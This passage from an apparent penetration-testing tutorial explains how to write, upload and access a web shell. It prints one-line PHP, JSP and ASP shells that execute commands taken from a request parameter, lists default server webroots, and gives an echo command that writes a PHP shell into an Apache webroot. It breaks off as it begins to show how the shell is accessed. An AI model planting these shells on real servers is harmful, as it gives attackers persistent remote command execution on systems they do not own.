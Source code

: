 

### W**riting a Web Shell**

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back.

The following are some common short web shell scripts for common web languages:

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```



## **Uploading a Web Shell**

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser.

This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\\   |
| `XAMPP`    | C:\xampp\htdocs\\      |

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## **Accessing Web Shell**

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:
